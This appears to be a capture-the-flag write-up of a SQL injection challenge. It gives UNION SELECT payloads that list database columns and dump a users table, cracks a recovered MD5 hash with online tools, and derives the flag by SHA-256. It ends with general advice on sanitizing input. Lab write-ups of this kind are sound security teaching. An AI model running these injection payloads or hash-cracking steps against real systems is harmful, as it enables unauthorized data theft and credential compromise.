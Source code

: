 
5 UNION SELECT table_name, column_name FROM information_schema.columns

Commentaire countersign

ID: 5 UNION SELECT Commentaire, countersign FROM users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28

[md5_decrypt](https://www.md5online.org/md5-decrypt.html) (5ff9d0165b4f92b14994e5c685cdce28) = tolower(FortyTwo) = fortytwo

[Sha256](https://md5decrypt.net/en/Sha256/)(fortytwo) = `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

## # Prevention

Sanitizing inputs refers to the process of validating and cleaning user-provided data before using it in an application or storing it in a database. The purpose of input sanitization is to ensure the integrity, security, and stability of the application by preventing potentially harmful or unexpected data from causing issues.

When users interact with an application, they can input various types of data, such as text, numbers, files, or other forms of input. However, this data may not always be reliable, and malicious users may attempt to exploit vulnerabilities or disrupt the application's functionality.

Input sanitization involves validating and cleaning the input data to ensure it conforms to expected formats, types, and constraints. This process typically includes the following steps:

1. Validation: Checking the input data to ensure it meets specific criteria, such as length limits, required fields, allowed character sets, or numeric ranges. Validation helps ensure the input is valid and appropriate for the application's needs.
2. Filtering: Removing or neutralizing potentially harmful or unwanted elements from the input. This may involve removing special characters, HTML tags, or scripts that could be used for injection attacks or malicious code execution.
3. Encoding: Converting characters or symbols that have special meanings in the context of the application to their encoded representations. This prevents the interpreted execution of potentially dangerous characters or code.